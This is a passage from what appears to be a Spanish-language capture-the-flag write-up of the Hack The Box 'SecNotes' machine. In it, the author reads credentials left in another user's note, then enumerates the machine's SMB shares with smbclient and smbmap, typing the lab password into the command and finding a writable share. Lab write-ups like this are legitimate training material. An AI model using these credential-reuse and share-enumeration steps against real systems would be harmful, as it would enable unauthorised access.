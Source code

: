 Ahora ingresamos como nuestro nuevo usuario.

![""](/assets/images/htb-secnotes/secnotes-web14.png)

Vemos la notas de todos los usuarios, incluyendo las de **Tyler** en donde tenemos unas credenciales de acceso bajo la nota **new site** y como pista nos dan la ruta `secnotes.htb\new-site`; por lo que ya debemos estar pensando en acceso por el servicio de SMB, por lo que primero trataremos de ver recursos a con una **Null Session** y después con las credenciales que nos dá la página.

```bash
❯ smbclient -L 10.10.10.97 -N
session setup failed: NT_STATUS_ACCESS_DENIED
❯ smbclient -L 10.10.10.97 -U 'tyler'
Enter WORKGROUP\tyler's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        new-site        Disk      
SMB1 disabled -- no workgroup available
❯ smbmap -u 'tyler' -p '92g!mA8BGjOirkL%OG*&' -H 10.10.10.97
[+] IP: 10.10.10.97:445 Name: secnotes.htb                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        new-site                                                READ, WRITE
```
